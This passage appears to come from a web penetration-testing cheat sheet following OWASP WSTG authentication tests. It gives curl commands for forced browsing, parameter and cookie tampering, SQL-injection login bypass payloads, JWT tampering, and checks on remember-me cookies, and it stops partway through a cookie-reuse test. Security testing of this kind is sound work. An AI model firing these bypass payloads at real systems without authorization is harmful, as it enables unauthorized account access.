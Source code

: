 ## WSTG-ATHN-04: Testing for Bypassing Authentication Schema

**Objective**: Ensure that authentication is applied across all services that require it and test for authentication bypass methods.

### Commands

```bash
# Test direct page access
curl -s https://example.com/admin/dashboard
curl -s https://example.com/profile
curl -s https://example.com/admin/users

# Test for forced browsing
curl -s https://example.com/admin/main.php
curl -s https://example.com/page.asp?authenticated=yes
curl -s https://example.com/admin/index.php?loggedin=1

# Test for parameter modification
curl -s https://example.com/login -d "username=admin&password=wrong&authenticated=true"

# Test for SQL injection in login form
curl -s -X POST -d "username=admin' OR '1'='1&password=anything" https://example.com/login
curl -s -X POST -d "username=admin'--&password=anything" https://example.com/login

# Test for cookie manipulation
curl -s -H "Cookie: authenticated=true; role=admin" https://example.com/admin

# Test for JWT token tampering
# 1. Get a valid JWT token
token=$(curl -s -X POST -d "username=user&password=password" https://example.com/login | grep -o "eyJ.*")
# 2. Decode and modify the token (example using jwt_tool)
python3 jwt_tool.py $token -T
```

## WSTG-ATHN-05: Testing for Vulnerable Remember Password

**Objective**: Validate that the "remember me" function is implemented securely and does not expose user credentials.

### Commands

```bash
# Test for insecure "remember me" cookies
curl -s -X POST -d "username=admin&password=password&remember=true" https://example.com/login -v | grep -i "set-cookie"

# Check if remember me cookies are transmitted securely
curl -s -I https://example.com | grep -i "set-cookie" | grep -i "secure\|httponly"

# Test for remember me cookie expiration
curl -s -X POST -d "username=admin&password=password&remember=true" https://example.com/login -v | grep -i "set-cookie" | grep -i "expires"

# Check for plaintext credentials in cookies
curl -s -X POST -d "username=admin&password=password&remember=true" https://example.com/login -v | grep -i "set-cookie" | grep -i "admin"

# Test for remember me cookie reuse after logout
# 1. Get the cookie
cookie=$(curl -s -X POST -d "username=admin&password=password&remember=true" https://example.com/login -v | grep -i "set-cookie" | grep -o "remember_token=[^;]*")
```